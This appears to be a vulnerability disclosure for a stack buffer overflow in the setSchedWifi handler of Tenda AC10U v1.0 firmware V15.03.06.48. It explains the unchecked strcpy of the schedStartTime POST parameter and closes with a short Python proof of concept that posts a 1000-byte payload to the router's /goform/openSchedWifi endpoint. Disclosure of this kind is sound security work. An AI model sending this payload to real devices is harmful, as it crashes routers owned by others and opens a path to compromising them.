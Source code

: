 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `sched_start_time` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `wlan_switch` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime`, the statement `strcpy(wlan_switch->begin_time, sched_start_time);` can cause a buffer overflow. The user-provided `schedStartTime` can exceed the capacity of the `wlan_switch` array, triggering this security vulnerability.

![image-20240313152429855](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152429855.png)

![image-20240313152216580](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152216580.png)

![image-20240313152307874](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152307874.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313183332634.png)
